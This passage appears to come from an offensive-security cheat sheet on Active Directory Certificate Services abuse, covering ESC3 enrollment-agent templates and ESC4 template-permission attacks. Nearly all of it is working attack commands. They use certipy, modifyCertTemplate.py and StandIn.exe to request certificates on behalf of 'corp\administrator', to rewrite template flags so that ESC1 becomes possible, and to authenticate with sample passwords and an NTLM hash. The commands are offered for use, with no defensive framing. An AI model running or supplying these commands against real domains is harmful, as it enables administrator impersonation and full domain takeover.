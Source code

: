 
## ESC3 - Misconfigured Enrollment Agent Templates

> ESC3 is when a certificate template specifies the Certificate Request Agent EKU (Enrollment Agent). This EKU can be used to request certificates on behalf of other users

* Request a certificate based on the vulnerable certificate template ESC3.
  ```ps1
  $ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC3'
  [*] Saved certificate and private key to 'john.pfx'
  ```
* Use the Certificate Request Agent certificate (-pfx) to request a certificate on behalf of other another user 
  ```ps1
  $ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'
  ```


## ESC4 - Access Control Vulnerabilities

> Enabling the `mspki-certificate-name-flag` flag for a template that allows for domain authentication, allow attackers to "push a misconfiguration to a template leading to ESC1 vulnerability

* Search for `WriteProperty` with value `00000000-0000-0000-0000-000000000000` using [modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate)
  ```ps1
  python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip 10.10.10.10 -get-acl
  ```
* Add the `ENROLLEE_SUPPLIES_SUBJECT` (ESS) flag to perform ESC1
  ```ps1
  python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip 10.10.10.10 -add enrollee_supplies_subject -property mspki-Certificate-Name-Flag

  # Add/remove ENROLLEE_SUPPLIES_SUBJECT flag from the WebServer template. 
  C:\>StandIn.exe --adcs --filter WebServer --ess --add
  ```
* Perform ESC1 and then restore the value
  ```ps1
  python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip 10.10.10.10 -value 0 -property mspki-Certificate-Name-Flag
  ```

Using Certipy

```ps1
# overwrite the configuration to make it vulnerable to ESC1
certipy template 'corp.local/johnpc$@ca.corp.local' -hashes :fc525c9683e8fe067095ba2ddc971889 -template 'ESC4' -save-old
# request a certificate based on the ESC4 template, just like ESC1.
certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC4' -alt 'administrator@corp.local'
# restore the old configuration
certipy template 'corp.local/johnpc$@ca.corp.local' -hashes :fc525c9683e8fe067095ba2ddc971889 -template 'ESC4' -configuration ESC4.json
```
